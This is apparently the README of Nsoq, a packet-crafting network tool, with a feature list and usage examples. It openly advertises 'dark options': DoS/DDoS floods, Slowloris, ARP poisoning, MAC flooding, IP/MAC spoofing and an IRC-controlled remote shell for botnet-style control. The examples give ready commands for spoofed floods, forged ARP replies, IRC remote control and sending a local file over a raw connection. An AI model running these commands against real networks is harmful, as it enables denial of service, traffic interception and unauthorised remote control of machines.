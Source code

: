 Nsoq official documentation: See [here.](http://www.nsoq.org)
========================================================================


## About
--------

Nsoq is a Network Security Tool for packets manipulation that allows a large number of options. Its primary purpose is analyze and test several scenarios of TCP/IP environments, such TCP/UDP packets and low levels ARP/RARP packets. Nsoq sends packets to any target type (hostnames, IPs and MAC address) handling many fields/headers like: Source/Destination IP address, Source/Destination MAC address, TCP flags, ICMP types, TCP/UDP/ICMP packet size, payloads ARP/RARP, etc.

Nsoq is able to operate into the RSOI mode (Remote System over IRC), where the tool can surrender all control of machine resources to some specific IRC channels ( also called Hive Mind option).

Nsoq executes sistematically many types of network based attacks, like packet attacks, MAC/IP Spoofing, DoS/DDoS attacks, ARP Poison, MAC Flooding and Web Stress Testing.  

<BR/>

## Features
-----------

#### Some white options:
- Handle many ICMP packet types: Echo Request, Mask Reply, Information Request, Source Quench, etc.
- Handle TCP packet headers: bit SYN, ACK, RST, FIN, PUSH , XMAS e NULL FLAGS.
- Server/Client TCP. Also checks TCP packet headers (tcpdump style).
- Check and send UDP packets.
- Send and check ARP/RARP packets (enlace layer).
- [Listen Modes] Listen ICMP, UDP, TCP (packets or connections) and ARP/RARP.
- Threads handler for all modes.
- Arbitrary packet size for all protocols.
- Show the packet dump (tcpdump style).
- [RSOI mode] Gives a remote shell under IRC channels (IRCp protocol).
- FTP handler (I/O connections like netcat style).
- Arping mode. Sends ARP replies instead of ICMP ping (bypass ICMP ping).

#### Dark Options:
- [DoS/DDoS Attack] WEB Stress HTTP requests.
- [DoS/DDoS Attack] WEB Stress test using UDP packets.
- [DoS/DDoS Attack] WEB Stress test using ICMP packets.
- [DoS/DDoS Attack] WEB Stress test using TCP packets (SYN, ACK headers).
- [DoS/DDoS Attack] WEB Stress test using partials HTTP reuests (Slowloris attack).
- [HIVE MIND] Gives a remote control of the machine resources to an IRC channel across a remote shell (RSOI mode).
- [HIVE MIND] Across of an IRC channel, performs a Distributed Denial Of Service (DDoS) attack.
- MAC/IP spoofing.
- [ARP Poisoning Attack] Changes the ARP cache table of network neighbors (CAUTION).
- [MAC Flooding Attack] ARP Flooding with MAC/IP address randomly crafted (CAUTION).

<BR/>

##EXAMPLES
-----------

```
   # nsoq -d hexcodes -Ie
      Sends an ICMP packet (Echo Request) to host "hexcodes".

   # nsoq -lI
      ICMP listen mode. Listen for ICMP packets like PINGs.

   # nsoq -It -d www.nsoq.org -c
      Sends ICMP packets (Timestamp Request) on continuous mode to server 
      "www.nsoq.org".

   # nsoq -s 10.1.100.100 -d www.nsoq.org -u -p 4140
      Sends an empty UDP packet with spoofed source ip "10.1.100.100" to host
      "hexcodes" on port 4140.

   # nsoq -d www.nsoq.org -u -p 9000 -P 22000 -F 900 -q 20
      Sends only 20 UDP packets to server "www.nsoq.org" and to port 9000,
      from source port 22000 with flood Delay defined to 900 microseconds.

   # nsoq -d 201.1.0.13 -Ie -x 512 -t 50 -z
      Sets Nsoq for send ICMP packets (Echo Request) with size of 512 bytes 
      to host "201.1.0.13" with TTL 50. Don't wait for the ICMP Echo ReplY.

   # nsoq -lU -P 59
      Listen UDP packets on local port 59 (all addresses and loopback).

   # nsoq -d hexcodes -Ts -p 6000
      Sends a TCP SYN packet to host "hexcodes" on port 6000.

   # nsoq -lC -P 12345 > file.txt
      Listen for TCP connections on local port "12345" writing the received
      data to the file 'file.txt'.

   # nsoq -d hexcodes -p 12345 < /etc/hosts
      Connect to host 'hexcodes' reading the file '/etc/hosts. The file
      content will be send over the TCP connection (netcat style).
   
   # nsoq -lT -P 2134 -D
      Listen for TCP packets on local port "2134" and show the packet content.

   # nsoq -d www.nsoq.org -Tr -p 8080 -n 12 -b
      Sends TCP RST packets to server "www.nsoq.org" on port 8080, with 12
      threads and with aggressive flood mode (HOT).

   # nsoq -H FF:FF:FF:FF:FF:FF
      Sends an ARP REPLY packet to physical Broadcast FF:FF:FF:FF:FF:FF. (The
      source MAC address and the source IP address will be obtained locally 
      by the active interface. The destination IP address will be NULL).

   # nsoq -i eth2 -h 00:BB:AA:CC:BB:AA -H FF:FF:FF:FF:FF:FF -d 10.1.10.1 -A
      Sends an ARP REQUEST packet by the eth2 interface (with source MAC 
      00:BB:AA:CC:BB:AA) to destination physical Broadcast FF:FF:FF:FF:FF:FF,
      asking "Who ??" on the network have the IP address "10.1.10.1". The IP
      "10.1.10.1" (if alive) will respond with an ARP REPLY filled with its
      own MAC/IP address pair.

   # nsoq -s 10.2.2.100 -h 00:CC:AA:CC:BB:AA -H FF:FF:FF:FF:FF:FF
      Sends an ARP REPLY packet to destination physical Broadcast 
      FF:FF:FF:FF:FF:FF saying that the source IP address "10.2.2.100" have
      now the MAC address 00:CC:AA:CC:BB:AA. (Caution: This option changes
      the ARP cache table. Possible ARP poisoning attack).

   # nsoq -a 10.1.50.100
      Sends an Arp'ing packet to Host "10.1.50.100". If the host hardware is
      alive on network or LAN, by default an ARP REPLY will be returned.
      Otherwise, nothing happens. This option is used to bypass ICMP
      filters (PING filters).

   # nsoq -f 250000
      Send 250000 ARP REPLY packets (to physical broadcast) with the
      fields (SOURCE MAC, DESTINATION MAC, SOURCE IP and DESTINATION IP
      ADDRESSESS) randomly generated.

   # nsoq -lA -D
      Listen for ARP/RARP packets. Does a listen action for all incoming
      ARP/RARP packets on link layer and show the packet content.

   # nsoq -N irc.quakenet.org -L Cybers
      Sets Nsoq to connect on IRC Server "irc.quakenet.org" on channel
      #Cybers. This option puts Nsoq on RSOI mode. So, the tool will be 
      NO AVAILABLE to be controled by user. Only the users on IRC server 
      "irc.quakenet.org" channel #Cybers can do this. 

   # nsoq -d 10.0.0.1 -W -n 40
      Sets the Nsoq to "WEB Stress Mode". This option puts Nsoq to send HTTP 
      requests (GET method) on aggressive flood to host "10.0.0.1" on 
      port 80 (default) with 40 threads. This stress test attempts to exhaust 
      the web service resources and check the target's limit response. 
```

<BR/>

## SECURITY
-----------

   Nsoq needs superuser privileges (root) for execution. DO NOT use the bit SUID 
   to allow root privileges. This is not recommended and may allow involuntary or 
   aggressive DoS/DDoS attacks. The privileged use of Nsoq also allows users 
   manipulate the ARP cache table of neighbors on network, or put all the system 
   over a remote control.

<BR/>

## DISPONIBILITY
----------------

   Nsoq is licensed under GPL and Free Software Foundation.<BR/> 
   A copy of the license accompanies the software.<BR/>
   Licensed under GPL 3 - Copyright (C) Felipe Ecker.
   
   Nsoq can be freely downloaded here: [http://www.nsoq.org](http://www.nsoq.org)
